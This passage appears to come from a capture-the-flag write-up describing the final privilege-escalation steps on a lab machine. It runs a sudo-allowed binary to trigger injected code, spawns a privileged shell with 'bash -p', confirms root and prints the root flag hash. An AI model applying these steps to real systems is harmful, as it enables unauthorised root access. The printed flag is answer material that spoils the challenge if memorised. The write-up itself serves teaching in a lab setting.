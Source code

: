 Next, we run the binary to trigger the code we injected.

```bash
sudo /home/shrek/header_checker
```

Finally, with this execution, we escalate to `root` privileges:

```bash
bash -p
```

Info:
```
bash-5.2# whoami
root
bash-5.2#
```
Ya somos root !

We find the `root flag` inside the `/root` directory.

```
9c7bddee2e2fb8ad03854f106f23c6b5
```

